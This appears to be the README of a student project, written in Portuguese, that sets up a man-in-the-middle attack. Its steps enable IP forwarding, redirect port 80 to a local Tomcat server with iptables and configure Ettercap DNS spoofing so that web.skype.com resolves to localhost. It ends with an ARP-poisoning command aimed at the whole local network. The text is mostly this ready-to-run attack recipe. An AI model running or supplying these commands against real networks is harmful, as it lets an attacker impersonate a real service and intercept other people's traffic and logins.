 # sgd-projectMITM - Implementação de um Man in the Middle
### Equipe ###
Flávio Henrique e Lucas Duete

### Requisitos ###
* Java
* Maven
* Postgres
* Ettercap
* TomCat

### Implantação do Ettercap ###

Abra o primeiro terminal. Agora vamos ativar o redirecionamento de pacotes. <br/>
`# echo 1 > /proc/sys/net/ipv4/ip_forward` <br/>
<br/>
Agora vamos efetuar todo o redirecionamento de pacotes que chegar na porta 80 da nossa máquina para a porta 8080. <br/>
`iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080` <br/>
<br/>
<b>Agoro iremos configurar o DNS Spoofing.</b><br/>
Primeiramente edite o arquivos etter.dns do ettercap.<br/>
`# pico /etc/ettercap/etter.dns`<br/>
<br/>
<table border=0>
  <tr>
    <td>https://web.skype.com/</td>
    <td>A</td>
    <td>localhost</td>
  </tr>
  <tr>
    <td>web.skype.com	</td>
    <td>A</td>
    <td>localhost</td>
  </tr>  
</table>
<br/>
Depois executar o seguinte comando para iniciar o Ettercap:<br/>
`ettercap -T -q -M arp -i eth0 -P dns_spoof ///`<br/>

